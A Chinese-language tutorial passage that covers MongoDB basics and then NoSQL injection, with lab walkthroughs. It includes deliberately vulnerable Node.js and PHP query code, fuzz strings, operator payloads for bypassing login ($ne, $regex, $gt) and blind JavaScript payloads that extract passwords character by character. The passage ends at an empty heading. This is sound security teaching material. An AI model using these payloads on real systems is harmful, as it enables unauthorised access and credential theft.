# 一、MongoDB简介

多数应用会依赖数据库存储密码、邮箱地址、评论等数据，最主流的数据库引擎为关系型数据库（如 Oracle、MySQL）。但过去十年间，非关系型数据库（即 NoSQL 数据库）愈发普及，截至 2022 年 11 月，MongoDB 已成为全球第五大常用数据库引擎。

NoSQL 数据库主要分为四大类，与关系型数据库统一以**表、行、列**存储数据不同，各类 NoSQL 数据库的数据存储方式差异极大。

| 类型           | 说明                                                         | 三大主流引擎（截至 2022 年 11 月）                   |
| -------------- | ------------------------------------------------------------ | ---------------------------------------------------- |
| 文档型数据库   | 以**字段 （fields ）和 值（values）**的文档存储数据，文档通常采用 JSON、XML 格式编码 | MongoDB、亚马逊云 Firebase/DynamoDB、谷歌 Firestore  |
| 键值型数据库   | 一种以 **键值对**（key：value）形式存储数据的结构，也被称为**字典**。 | Redis、亚马逊云 DynamoDB、微软 Azure Cosmos DB       |
| 宽列存储数据库 | 类似关系型数据库以表、行、列存储海量数据，但支持更灵活的模糊数据类型 | Apache Cassandra、Apache HBase、微软 Azure Cosmos DB |
| 图数据库       | 以**节点**（nodes）存储数据，用**边**（edges）定义数据间关联关系 | Neo4j、微软 Azure Cosmos DB、Virtuoso                |

本模块仅聚焦**MongoDB**（最主流的 NoSQL 数据库）展开讲解。

## 1、MongoDB 模型

MongoDB 是文档型数据库，数据由三种类型的组件构成： **数据库** 、 **集合**和**文档** 。数据库位于层次结构的顶端，集合位于下一层，文档位于最底层。



1. **数据库**提供了一个用于存储和组织数据的容器。一个 MongoDB 实例中可以包含 **一个或多个数据库**，每个数据库用于存放一组相关的数据集合。

2. 文档存储在**集合**中。集合类似于关系数据库中的表。
   

3. **文档**由字段/值对组成，是 MongoDB 数据结构的核心，文档采用**[BSON](https://bsonspec.org/)（二进制 JSON）** 编码。
   一个**字段**可以包含单个值、多个字段或多个元素：
   字段值可以是任何一种 BSON [数据类型](https://www.mongodb.com/zh-cn/docs/manual/reference/bson-types/#std-label-bson-types)，包括其他文档、数组和文档数组。例如，以下文档包含不同类型的值：

   ```json
   var mydoc = {
                  _id: ObjectId("5099803df3f4948bd2f98391"),
                  name: { first: "Alan", last: "Turing" },
                  birth: new Date('Jun 23, 1912'),
                  death: new Date('Jun 07, 1954'),
                  contribs: [ "Turing machine", "Turing test", "Turingery" ],
                  views : Long(1250000)
               }
   ```

   上述字段具有以下数据类型：

   - `_id` 保存 [ObjectId](https://www.mongodb.com/zh-cn/docs/manual/reference/bson-types/#std-label-objectid)。
   - `name` 包含一个*嵌入式文档*，其中包含字段 `first` 和 `last`。
   - `birth` 和 `death`保存*日期*类型的值。
   - `contribs` 保存着一个*字符串数组*。
   - `views` 保存 *NumberLong* 类型的值。

   > [!NOTE]
   >
   > 在MongoDB中，存储在标准集合中的每个文档都需要一个唯一的[_id](https://www.mongodb.com/zh-cn/docs/manual/reference/glossary/#std-term-_id)字段作为[主键](https://www.mongodb.com/zh-cn/docs/manual/reference/glossary/#std-term-primary-key)。如果插入的文档省略了 `_id`字段，则MongoDB驱动程序会自动为 `_id`字段生成 [ObjectId](https://www.mongodb.com/zh-cn/docs/manual/reference/bson-types/#std-label-objectid)。

   

## 2、基础操作

##### 1.连接MongoDB

可通过`mongosh`命令行工具，传入连接字符串与 MongoDB 交互，MongoDB 默认端口为**27017/tcp**。

```
mongosh mongodb://127.0.0.1:27017
Current Mongosh Log ID: 636510136bfa115e590dae03
Connecting to: mongodb://127.0.0.1:27017/?
directConnection=true&serverSelectionTimeoutMS=2000&appName=mongosh+1.6.0
Using MongoDB: 6.0.2
Using Mongosh: 1.6.0
Connecting to:
For mongosh info see: https://docs.mongodb.com/mongodb-shell/
test>
```


##### 2.查看所有数据库

`show databases`

```json
test> show databases
admin 72.00 KiB
config 108.00 KiB
local 40.00 KiB
```


##### 3.创建数据库

MongoDB 只有在你先向数据库中存储数据时才会创建该数据库。我们可以使用 `use` 命令“切换”到一个名为 academy 的新数据库：

```json
test> use academy
switched to db academy
academy>
```


##### 4.列出数据库中的所有集合

我们可以使用 `show collections` 命令列出数据库中的所有集合。

```json
academy> show collections
```


##### 5. 插入数据

与创建数据库类似，MongoDB 只有在你首次向集合中插入文档时才会创建该集合。我们可以通过多种方式向集合中插入数据。

我们可以像这样向 apples 集合中插入单个文档`db.apples.insertOne({type: "Granny Smith", price: 0.65})` ：

```json
academy> db.apples.insertOne({type: "Granny Smith", price: 0.65}) 

//命令结果
{
acknowledged: true, insertedId: ObjectId("63651456d18bf6c01b8eeae9")
}
```

我们也可以像这样向 apples 集合中插入多个文档`db.apples.insertMany([{type: "Golden Delicious", price: 0.79}, {type: "Pink Lady", price: 0.90}])`：

```json
academy> db.apples.insertMany([{type: "Golden Delicious", price: 0.79}, {type: "Pink Lady", price: 0.90}])

//命令结果
{
acknowledged: true, 
insertedIds: { 
	'0': ObjectId("6365147cd18bf6c01b8eeaea"),
 	'1': ObjectId("6365147cd18bf6c01b8eeaeb")
   }
}
```


##### 6.查询数据

假设我们想要查询Granny Smith 苹果的价格。一种方法是指定一个包含我们想要匹配的字段和值的文档：

```json
academy> db.apples.find({type: "Granny Smith"})

//命令结果
{
    type: 'Granny Smith', _id: ObjectId("63651456d18bf6c01b8eeae9"),
    price: 0.65
}
```

又或者我们想要列出集合中的所有文档。我们可以通过传入一个空文档来实现这一点（因为它是所有文档的一个子集）：

```json
academy> db.apples.find({})

//查询结果
[
    {
    type: 'Granny Smith', _id: ObjectId("63651456d18bf6c01b8eeae9"),
    price: 0.65
    },
    {
    type: 'Golden Delicious', _id: ObjectId("6365147cd18bf6c01b8eeaea"),
    }, price: 0.79
    {
    type: 'Pink Lady', _id: ObjectId("6365147cd18bf6c01b8eeaeb"),
    price: 0.90
    }
]
```

如果我们想执行更复杂的查询，比如查找所有类型以字母“G”开头且价格低于0.70的苹果，就需要结合使用查询操作符。MongoDB中有许多查询操作符，其中最常用的一些包括：

| 类型 | 操作符 | 说明                     | 示例                                               |
| ---- | ------ | ------------------------ | -------------------------------------------------- |
| 比较 | $eq    | 匹配等于指定值的数据     | type: {$eq: "Pink Lady"}                           |
| 比较 | $gt    | 匹配大于指定值的数据     | price: {$gt: 0.30}                                 |
| 比较 | $gte   | 匹配大于等于指定值的数据 | price: {$gte: 0.50}                                |
| 比较 | $in    | 匹配数组内存在的值       | type: {$in: ["Granny Smith", "Pink Lady"]}         |
| 比较 | $lt    | 匹配小于指定值的数据     | price: {$lt: 0.60}                                 |
| 比较 | $lte   | 匹配小于等于指定值的数据 | price: {$lte: 0.75}                                |
| 比较 | $nin   | 匹配不在数组内的值       | type: {$nin: ["Golden Delicious", "Granny Smith"]} |

| 类型 | 操作符 | 说明                                                         | 示例                                            |
| ---- | ------ | ------------------------------------------------------------ | ----------------------------------------------- |
| 逻辑 | $and   | 同时满足多个条件                                             | $and: [{type: ' Granny Smith '}, {price: 0.65}] |
| 逻辑 | $not   | 不满足指定条件                                               | type: {not: {eq: "Granny Smith"}}               |
| 逻辑 | $nor   | 均不满足多个条件                                             | $nor: [{type: ' Granny Smith '}, {price: 0.79}] |
| 逻辑 | $or    | 满足任一条件                                                 | $or: [{type: ' Granny Smith '}, {price: 0.79}]  |
| 求值 | $mod   | 取模匹配                                                     | price: {$mod: [4, 0]}                           |
| 求值 | $regex | 正则匹配                                                     | type: {$regex: /^G.*/}                          |
| 求值 | $where | [JavaScript 表达式](https://www.mongodb.com/docs/manual/reference/operator/query/where/)匹配 | $where: 'this.type.length === 9'                |

回到之前的例子，如果我们想选择所有类型以字母 'G' 开头且价格低于 0.70 的苹果，可以这样操作：

```json
academy> db.apples.find({$and: [{ type: { $regex: /^G/ } },{ price: { $lt: 0.70 } }]});

[
    {
        _id: ObjectId("63651456d18bf6c01b8eeae9"),
        type: 'Granny Smith',
        price: 0.65
    }
]
```

或者，我们可以使用 $where 运算符来获得相同的结果：

```json
academy> db.apples.find({$where: `this.type.startsWith('G') && this.price 
< 0.70`});

// 结果
[
    {
      type: 'Granny Smith', _id: ObjectId("63651456d18bf6c01b8eeae9"),
      price: 0.65
    }
]
```

##### 7.排序

如果我们想对查找查询的数据进行排序，可以通过追加排序函数来实现。例如，若要按价格降序选出排名前两位的苹果，可按如下方式操作：

```json
academy> db.apples.find({}).sort({price: -1}).limit(2)

//结果
[
    {
        type: 'Pink Lady', _id: ObjectId("6365147cd18bf6c01b8eeaeb"),
        price: 0.9
    }, 
    {
        type: 'Golden Delicious', _id: ObjectId("6365147cd18bf6c01b8eeaea"),
        price: 0.79
    }
]
```

如果我们想要反转排序顺序，就会使用 1（升序）而非 -1（降序）。注意末尾的 `.limit(2)`，它能让我们对返回结果的数量设置限制。

##### 8.更新文档

更新操作接收一个**筛选器（filter）**和一个**更新（update）操作**。筛选器选定我们要更新的文档，更新操作则对这些文档执行。与查询运算符类似，MongoDB 中也存在[更新运算符](https://www.mongodb.com/docs/manual/reference/operator/update/#std-label-update-operators-processing-order)。最常用的更新运算符是 `$set`，它用于更新指定字段的值。

假设由于通货膨胀，Granny Smith 的价格从0.65美元上涨至1.99美元。要更新文档，我们可以这样操作：

```

```

```json
academy> db.apples.updateOne({type: "Granny Smith"}, {$set: {price:
1.99}})

//结果
{
acknowledged: true,
insertedId: null,
matchedCount: 1,
modifiedCount: 1,
upsertedCount: 0
}
```

如果我们想同时提高所有苹果的价格，可以使用 `$inc` 运算符并这样操作：

```json
academy> db.apples.updateMany({}, {$inc: {quantity: 1, "price": 1}})

{
acknowledged: true,
insertedId: null,
matchedCount: 3,
modifiedCount: 3,
upsertedCount: 0
}
```

`$set` 操作符允许我们更新现有文档中的特定字段，但如果我们想完全替换整个文档，可以使用 `replaceOne` 来实现，具体操作如下：

```json
academy> db.apples.replaceOne({type:'Pink Lady'}, {name: 'Pink Lady',
price: 0.99, color: 'Pink'})
//结果
{
acknowledged: true,
insertedId: null,
matchedCount: 1,
modifiedCount: 1,
upsertedCount: 0
}
```

##### 9. 删除文档

删除文档的操作与选择文档非常相似。我们传入一个查询，然后删除匹配的文档。假设我们想要删除价格低于0.80的苹果：

```json
academy> db.apples.remove({price: {$lt: 0.8}})
//结果
{ acknowledged: true, deletedCount: 2 }
```

## 3. 自学文档

https://awesome-programming-books.github.io/

https://www.mongodb.com/zh-cn/docs/

https://www.mongodb.com/zh-cn/resources/products/platform/mongodb-atlas-tutorial

https://hacktricks.wiki/en/pentesting-web/nosql-injection.html

https://awesome-programming-books.github.io/mongodb/MongoDB%E6%9D%83%E5%A8%81%E6%8C%87%E5%8D%97.pdf

------


# 二、NoSQL 注入简介

当用户输入在未经过适当清理的情况下被整合到 NoSQL 查询中时，可能会发生 NoSQL 注入攻击。如果攻击者能够控制查询的部分内容，他们可能会破坏查询逻辑，迫使服务器执行非预期操作或返回非预期结果。由于 NoSQL 没有像 SQL 那样的标准化查询语言，NoSQL 注入攻击在不同的 NoSQL 实现中表现形式各不相同。

## 1.nodejs场景示例

让我们想象一个使用 MongoDB 存储用户信息的 Express/Node.js 网络服务器。该服务器拥有 `/api/v1/getUser` 接口，支持通过用户名获取用户信息。

```js
// Express是一个用于Node.JS的Web框架
express = require('express'); 
app.use(express.json()); // 告诉 Express 接受 JSON 请求体
const app = express(); 

// 用于Node.JS的MongoDB驱动程序以及我们本地MongoDB数据库的连接字符串
const {MongoClient} = require('mongodb');
const uri = "mongodb://127.0.0.1:27017/test";
const client = new MongoClient(uri);

// Input (JSON): {"username": <username>} 
// POST /api/v1/getUser 
// Returns: User details where username=<username> 
app.post('/api/v1/getUser', (req, res) => {
    client.connect(function(_, con) {
		const cursor = con
			.db("example")
			.collection("users")
			.find({username: req.body['username']});
		cursor.toArray(function(_, result) {
			res.send(result);
		});
	});
});
// Tell Express to start our server and listen on port 3000
app.listen(3000, () => { 
    console.log(`Listening...`);
});

```

注意：在实际应用中，这很可能是一个类似 `/api/v1/getUser/<username>` 的 GET 请求，但为了简化，此处使用 POST 请求。

此接口的预期使用方式如下：

```bash
curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": "gerald1992"}' | jq

[
    {
        "_id": "63667326b7417b004543513a",
        "username": "gerald1992",
        "password": "0f626d75b12f77ede3822843320ed7eb",
        "role": 1,
        "email": "[email protected]"
    }
]
```

我们发送了带有主体 `{"username": "gerald1992"}` 的 `/api/v1/getUser` 接口请求，服务器利用该主体生成了完整的查询语句 `db.users.find({username: "gerald1992"})`，并将结果返回给我们。

问题在于服务器会不加任何过滤或检查地直接使用我们提供的用户名查询参数。以下是一段易受 NoSQL 注入攻击的代码示例：

```json
...
.find({username: req.body['username']});
...
```

利用此注入漏洞的一个简单示例是，使用上一节介绍的 $regex 运算符强制服务器返回所有用户（用户名与 /.*/ 匹配）的信息，如下所示：

```bash
curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": {"$regex": ".*"}}' | jq

[
"_id": "63667302b7417b0045435139",
"username": "bmdyy",
"password": "f25a2fc72690b780b2a14e140ef6a9e0", "role": 0,
"email": "[email protected]"
},
{
"_id": "63667326b7417b004543513a", "username": "gerald1992", "password": "0f626d75b12f77ede3822843320ed7eb",
"role": 1,
"email": "[email protected]"
}
```


## 2.注入类型

按漏洞成因分类，可分为以下两种：

1. **语法注入**
   当攻击者能够破解 NoSQL 查询语法，从而注入自定义恶意代码时，就会发生语法注入攻击。其方法与 SQL 注入类似。然而，由于 NoSQL 数据库使用多种查询语言、查询语法类型和不同的数据结构，因此攻击的性质存在显著差异。
2. **运算符注入**
   当您可以使用 NoSQL 查询运算符来操作查询时，就会发生这种情况。

按攻击手法可分为以下 两种：

1. **带内攻击（In-Band）：**
   攻击者可利用同一通信渠道实施 NoSQL 注入并获取攻击结果。上文所述的场景即为该攻击方式的实例。
2. **盲注：**
   这种情况下，攻击者无法从 NoSQL 注入中获得任何直接结果，但他们可以根据服务器的响应方式推断出结果。
   1. **布尔型**：
      基于布尔型的注入是盲注的一个子类，盲注是一种攻击者可迫使服务器执行查询，并根据查询结果为真或假返回对应结果的技术手段。
   2. **时间盲注：**
      基于时间的是盲注的另一子类，指攻击者让服务器等待一段特定时长后再作出响应，通常以此来判断查询被评估为真还是假。


## 3. 语法注入

您可以通过尝试破坏查询语法来检测 NoSQL 注入漏洞。为此，请系统地测试每个输入，方法是提交模糊字符串和特殊字符，如果这些字符串和字符没有经过应用程序的充分清理或过滤，则会触发数据库错误或其他可检测的行为。如果您了解目标数据库的 API 语言，请使用与该语言相关的特殊字符和模糊测试字符串。否则，请使用多种模糊测试字符串来针对多种 API 语言。

### 3.1 检测 MongoDB 中的语法注入

假设有一个购物应用程序，它会显示不同类别的产品。当用户选择 **“碳酸饮料”** 类别时，他们的浏览器会请求以下 URL：

```url
https://insecure-website.com/product/lookup?category=fizzy
```

这会导致应用程序发送 JSON 查询，以从 MongoDB 数据库的 `product` 集合中检索相关产品：

```js
this.category == 'fizzy'
```

要测试输入是否存在漏洞，请在 `category` 参数的值中提交一个模糊测试字符串。例如，MongoDB 的模糊测试字符串为：

```txt
'"`{
;$Foo}
$Foo \xYZ
```

使用此模糊字符串构建以下攻击：

```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

如果这导致与原始响应不同的结果，则可能表明用户输入没有被正确过滤或清理。

> [!NOTE]
>
> 在这个例子中，我们通过 URL 注入模糊测试字符串，因此该字符串经过了 URL 编码。在某些应用程序中，您可能需要通过 JSON 属性注入有效载荷。在这种情况下，有效载荷将变为：
>
> ```
> '\"`{\r;$Foo}\n$Foo \\xYZ\u0000
> ```

### 3.2 确定要处理的字符

要确定应用程序会将哪些字符解释为语法，您可以单独注入字符。例如，您可以提交 `'` ，这将生成以下 MongoDB 查询：

```js
this.category == '''
```

如果这导致响应与原始响应有所不同，则可能表明 `'` 引号破坏了查询语法并导致了语法错误。您可以通过在输入中提交有效的查询字符串来确认这一点，例如，通过转义单引号：

```js
this.category == '\''
```

如果这没有导致语法错误，则可能意味着该应用程序容易受到注入攻击。

### 3.3 确认条件行为

检测到漏洞后，下一步是确定是否可以使用 NoSQL 语法影响布尔条件。

为了测试这一点，发送两个请求，一个条件为假，另一个条件为真。例如，您可以使用条件语句。 `' && 0 && 'x` 和 `' && 1 && 'x` 如下所示：

```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```

```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

如果应用程序的行为有所不同，则表明假条件会影响查询逻辑，而真条件则不会。这说明注入这种语法会影响服务器端查询。

### 3.4 覆盖现有条件

既然你已经发现可以影响布尔条件，你就可以尝试覆盖现有条件来利用这个漏洞。例如，你可以注入一个始终为 true 的 JavaScript 条件，例如： `'||'1'=='1` :

```url
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```

这将生成以下 MongoDB 查询：

```js
this.category == 'fizzy'||'1'=='1'
```

由于注入的条件始终为真，修改后的查询会返回所有项目。这使您可以查看任何类别中的所有产品，包括隐藏或未知类别。

您也可以在类别值后添加一个空字符。MongoDB 可能会忽略空字符后的所有字符。这意味着 MongoDB 查询中的任何其他条件都将被忽略。例如，查询可能包含额外的条件 `this.released` 限制：

```json
this.category == 'fizzy' && this.released == 1
```

限制条件 `this.released == 1` 用于仅显示已发布的产品。对于未发布的产品，大概 `this.released == 0` 。在这种情况下，攻击者可以按如下方式构建攻击：

```url
https://insecure-website.com/product/lookup?category=fizzy'%00
```

这将生成以下 NoSQL 查询：

```json
this.category == 'fizzy'\u0000' && this.released == 1
```

如果 MongoDB 忽略空字符之后的所有字符，则不再需要将 release 字段设置为 1。因此，所有产品 会显示 `fizzy` 饮料类别，包括尚未发布的产品。


### 3.5  案例

此实验室的产品类别筛选器由 MongoDB NoSQL 数据库驱动，存在 NoSQL 注入漏洞。要完成实验，请执行 NoSQL 注入攻击，使应用程序显示未发布的产品。

进入实验室后，尝试使用搜索 Lifestyle，浏览器发出如下的请求：

```url
web-security-academy.net/filter?category=Lifestyle
```

##### 检测语法注入

当输入 mongoDB的模糊测试字符串后，我们收到了500错误：



##### 确定要处理的字符

当使用 `'`提交时，页面发生错误：



而使用`\'` 时，页面正常：



这表明可能存在某种形式的服务器端注入攻击。


##### 覆盖现有的条件

确定是否可以注入布尔条件来改变响应：

在类别参数中插入一个 false 条件。例如：`Lifestyle' && 0 && 'x`  页面没有任何的显示：



插入一个true 条件，例如：`Lifestyle' && 1 && 'x` ，页面显示正常：



在 category 参数中提交一个始终为 true 的布尔条件。例如：`Gifts'||1||'`，响应中包含了从未展示过的产品：




## 4、操作符注入

NoSQL 数据库通常使用查询运算符，用于指定数据必须满足哪些条件才能包含在查询结果中。MongoDB 查询运算符的示例包括：

- `$where` - 匹配满足 JavaScript 表达式的文档。
- `$ne` - 匹配所有不等于指定值的值。
- `$in` - 匹配数组中指定的所有值。
- `$regex` - 选择值与指定正则表达式匹配的文档。

您或许可以注入查询运算符来操控 NoSQL 查询。为此，请系统地将不同的运算符应用于一系列用户输入，然后检查响应是否存在错误消息或其他变化。

### 4.1 提交查询运算符

在 JSON 消息中，您可以将查询运算符作为嵌套对象插入。例如， `{"username":"wiener"}` 变为 `{"username":{"$ne":"invalid"}}` 。

对于基于 URL 的输入，您可以通过 URL 参数插入查询运算符。例如， `username=wiener` 会变成 `username[$ne]=invalid` 。如果这不起作用，您可以尝试以下方法：

1. 将请求方法从 `GET` 转换为 `POST` 。
2. 将 `Content-Type` 标头更改为 `application/json` 。
3. 将 JSON 添加到消息正文中。
4. 在 JSON 中注入查询运算符。

> [!NOTE]
>
> 您可以使用[内容类型转换](https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278)器扩展程序自动转换请求方法，并将 URL 编码的 `POST` 请求更改为 JSON。


### 4.2 检测 MongoDB 中的运算符注入

假设有一个存在漏洞的应用程序，它接受在 `POST` 请求正文中输入的用户名和密码：

```json
{"username":"wiener","password":"peter"}
```

使用一系列运算符测试每个输入。例如，要测试用户名输入是否能处理查询运算符，您可以尝试以下注入：

```json
{"username":{"$ne":"invalid"},"password":"peter"}
```

如果应用 `$ne` 运算符，则会查询用户名不等于 `invalid` 所有用户。如果用户名和密码输入都处理了运算符，可能可以使用以下有效载荷绕过身份验证：

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

此查询返回所有用户名和密码均不为 `invalid` 登录凭据。因此，您将作为该集合中的第一个用户登录到应用程序。

要攻击某个账户，你可以构建一个包含已知用户名或你猜测的用户名的有效载荷。例如：

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

### 4.3 绕过身份验证

本实验室的登录功能由 MongoDB NoSQL 数据库驱动，因此存在利用 MongoDB 操作符进行 NoSQL 注入的漏洞。要完成实验，请以 `administrator` 用户身份登录应用程序。

将密码参数设置为 `{"$ne":""}` ，将用户名参数的值更改为 `{"$regex":"admin.*"},` 然后再次发送请求。请注意，这将成功以管理员用户身份登录。


## 5、利用语法注入提取数据

在许多 NoSQL 数据库中，某些查询运算符或函数可以运行有限的 JavaScript 代码，例如 MongoDB 的 `$where` 运算符和 `mapReduce()` 函数。这意味着，如果存在漏洞的应用程序使用这些运算符或函数，数据库可能会执行查询过程中生成的 JavaScript 代码。因此，攻击者可能利用 JavaScript 函数从数据库中提取数据。

### 5.1 语法盲注提取账号密码

假设有一个存在漏洞的应用程序，允许用户查找其他已注册的用户名并显示其角色。这将触发对以下 URL 的请求：

```url
https://insecure-website.com/user/lookup?username=admin
```

这将生成以下针对 `users` 集合的 NoSQL 查询：

```json
{"$where":"this.username == 'admin'"}
```

由于查询使用了 `$where` 运算符，您可以尝试向此查询中注入 JavaScript 函数，使其返回敏感数据。例如，您可以发送以下有效负载：

```txt
admin' && this.password[0] == 'a' || 'a'=='b
```

这将返回用户密码字符串的第一个字符，使您可以逐个字符提取密码。

您还可以使用 JavaScript 的 `match()` 函数来提取信息。例如，以下有效负载可以帮助您识别密码是否包含数字：

```txt
admin' && this.password.match(/\d/) || 'a'=='b
```


案例如下：

我们发现一个请求断点，根据参数user 获取用户的数据：



#### 5.1.1 检查语法注入

分别使用单引号`'` 和反斜杠单引号 `\'`  ,分别得到如下的反馈：





可以看到，这里没有任何的过滤，我们的输入被带入了查询，后端可能的查询为：

```js
app.get("/user/lookup", async (req, res) => {
  const user = req.query.user;

  // 把输入直接拼进 JS 表达式
  const cond = "this.username == '" + user + "'";

  const doc = await db.collection("users").findOne({ $where: cond });

  if (!doc) {
    return res.json({ message: "Could not find user" });
  }

  return res.json(doc);
});
```

如果我们使用 `wiener'+'`   将+进行url编码，发送到后端后，后端先拼接字符 `this.username == 'wiener'+'’` 之后发送到数据库
`$where` 处理js代码，它执行 `+` 运算符，将 `'wiener'` 和空字符串 `''` 拼接，得到 `'wiener'`。然后去数据库匹配 `this.username == 'wiener'`

并返回正常数据：



#### 5.1.2 布尔盲注

在 `user` 参数中提交一个假条件。例如： `wiener' && '1'=='2`  ，url编码后发送请求：



之后提交一个真条件，例如`wiener' && '1'=='1` url编码后发送请求：



这可以确定我们可以尝试布尔盲注

之后将用户参数更改为 `administrator' && this.password.length < 30 || 'a'=='b` ，url编码后然后发送请求：



我们获得用户administrator 的信息，这表明条件成立，因为密码长度小于 30 个字符。缩短有效载荷中的密码长度，然后重新发送请求。

最终我们确定this.password.length=8 ：



将用户参数更改为 `administrator' && this.password[§0§]=='§a§` 。这包含两个有效负载位置。请确保对有效负载进行 URL 编码。



将攻击结果按有效载荷 1 排序，然后按长度排序。请注意，每个字符位置（0 到 7）都有一个请求的评估结果为真，并检索到了详细信息。 `administrator` 用户。请注意有效载荷 2 列以下的字母。

> [!NOTE]
>
> 你并不知道集合中，用户密码保存的字段名就是 password

由于 MongoDB 处理的是不需要固定模式的半结构化数据，因此在使用 JavaScript 注入提取数据之前，您可能需要识别集合中的有效字段。

例如，要确定 MongoDB 数据库是否包含 `password` 字段，您可以提交以下有效负载：

```url
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

分别针对已存在的字段和不存在的字段再次发送有效负载。在本例中，您知道 `username` 段存在，因此您可以发送以下有效负载：

```
admin' && this.username!=' 
```

```
admin' && this.foo!='
```

如果 `password` 字段存在，则预期响应与现有字段（ `username` ）的响应相同，但与不存在的字段（ `foo` ）的响应不同。

如果要测试不同的字段名称，可以使用字典攻击，通过字典列表循环遍历不同的潜在字段名称。


## 6、操作符注入提取数据

即使原始查询未使用任何允许运行任意 JavaScript 代码的操作符，您仍然可以自行注入此类操作符。然后，您可以使用布尔条件来确定应用程序是否执行通过此操作符注入的 JavaScript 代码。

假设有一个存在漏洞的应用程序，它接受在 `POST` 请求正文中传入用户名和密码：

```json
{"username":"wiener","password":"peter"}
```

要测试是否可以注入运算符，您可以尝试将 `$where` 运算符作为附加参数添加，然后发送一个条件执行结果为 false 的请求，以及另一个条件执行结果为 true 的请求。例如：

```json
{"username":"wiener","password":"peter", "$where":"0"}
```

```json
{"username":"wiener","password":"peter", "$where":"1"}
```

如果响应结果之间存在差异，这可能表明 **$where 子句中的 JavaScript 表达式正在被执行**。

### 6.1 提取字段名称

如果您已注入允许运行 JavaScript 的操作符，则可以使用 `keys()` 方法提取数据字段的名称。例如，您可以提交以下有效负载：

```json
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

此函数检查用户对象中的第一个数据字段，并返回字段名称的第一个字符。这样，您就可以逐个字符地提取字段名称。

或者，您可以使用不启用 JavaScript 运行的操作符来提取数据。例如，您可以使用 `$regex` 运算符逐字符提取数据。假设有一个存在漏洞的应用程序，它接受在 `POST` 请求正文中传入的用户名和密码。例如：

```JSON
{"username":"myuser","password":"mypass"}
```

您可以先测试 `$regex` 运算符是否按如下方式处理：

```JSON
{"username":"admin","password":{"$regex":"^.*"}}
```

如果对此请求的响应与提交错误密码时您收到的响应不同，这表明该应用程序可能存在漏洞。您可以使用 $regex 操作符逐字符提取数据。例如，以下负载检查密码是否以字母'a'开头:

```JSON
{"username":"admin","password":{"$regex":"^a*"}}
```


------

# 三、攻击示例

## 1、绕过身份验证

在本节中，我们将介绍 MangoMail。该 Web 应用程序存在身份验证绕过漏洞。网页上只有一个登录入口，别无他物；想必这是一个内部网络邮件服务。


我们将用测试数据填写表单，并通过 BurpSuite 拦截请求。假设你已经熟悉这个流程。



在POST请求中，我们看到了URL编码的参数email和password，它们被填入了测试数据。不出所料，这次登录尝试失败了。

在服务器端，接收这些参数的身份验证函数如下所示：

```php
...
if ($_SERVER['REQUEST_METHOD'] === "POST"):
    if (!isset($_POST['email'])) die("Missing `email` parameter");
    if (!isset($_POST['password'])) die("Missing `password` parameter");
    if (empty($_POST['email'])) die("`email` can not be empty");
    if (empty($_POST['password'])) die("`password` can not be empty");
    $manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
    $query = new MongoDB\Driver\Query(array("email" => $_POST['email'],"password" => $_POST['password']));
    $cursor = $manager->executeQuery('mangomail.users', $query);
    if (count($cursor->toArray()) > 0) {
            ...
```

我们可以看到，服务器在对 *email* 和 *password* 进行任何操作之前，会先检查两者是否都已提供且非空。验证通过后，服务器会连接到本地运行的 MongoDB 实例，然后查询 *mangomail* 数据库，以确认是否存在匹配该 *email* 和 *password* 组合的用户，具体操作如下：

```json
db.users.find({ email: "<email>",password: "<password>"})
```

问题在于 *email* 和 *username* 都是用户可控的输入，它们未经处理就被传入 MongoDB 查询中。这意味着我们（作为攻击者）可以控制该查询。

本模块第一部分已介绍多种查询运算符，你或许已大致了解如何操控这条查询。当前我们需要让这条查询**匹配任意一条文档**，这样就能以匹配到的任意用户身份完成认证。最简单的方法是，在 **email** 和 **password** 字段上都使用 **$ne** 查询运算符，去匹配**不等于某个我们确定不存在的值**。简单来说，我们想要构造一条查询：匹配 *email* **不等于**` test@test.com`、且*password*  **不等于**`test`的记录。

```json
//类似 SELECT * FROM users WHERE email != 'test@test.com' AND password != 'test';
db.users.find({ email: {$ne: "test@test.com"},password: {$ne: "test"}});

```

因为email 和 password 是通过**URL 编码参数**传递的，我们**不能直接传 JSON 对象**，需要稍微改一下写法。

在向 PHP 传递 URL 编码参数时，写法 **param[$op]=val** 等价于 **param: {$op: val}**。

所以我们可以用 **email[$ne]=test@test.com** 和 **password[$ne]=test** 来尝试绕过登录验证。



> [!NOTE]
>
> 如果传递时json格式 ，那么直接尝试：
>
> {    "email": {"$ne": "test@test.com"},    "password": {"$ne": "test"}  }

我们知道 test@test.com:test 没有让我们登录，因此是无效凭据，这应该能匹配到 users 集合中的某个文档。

当我们更新表单参数并转发请求时，应该能看到我们成功绕过了身份验证。


虽然在两个参数上都使用 `$ne` 能成功绕过登录验证，但多准备几种备用方法总是更稳妥。 另一种可行的方法是：在邮箱和密码两个字段都使用 **$regex** 查询符，匹配规则为 `/.*/`，它表示**匹配任意字符（0个或多个）**，因此能匹配所有数据。

```json
db.users.find({
email: {$regex: /.*/},
password: {$regex: /.*/}
});
```

我们可以将其调整为 URL 编码形式，重新发送请求，就能再次绕过身份验证。


> [!NOTE]
>
> 如果发送的为json数据，那么应该是 {  "email": { "$regex": ".\*" },  "password": { "$regex": ".\*" } }

其他可用的载荷包括：

`email=admin%40mangomail.com&password[$ne]=x` : 这假设我们知道管理员的电子邮件，并且想要直接针对他们。

`email[$gt]=&password[$gt]=` : 任何字符串都大于一个空字符串

`email[$gte]=&password[$gte]=` :与上述逻辑相同

除此之外，你还可以组合使用操作符来达到相同的效果。花点时间更好地理解查询操作符，将有助于你在实际场景中尝试利用 NoSQL 注入漏洞。


## 2、带内数据提取

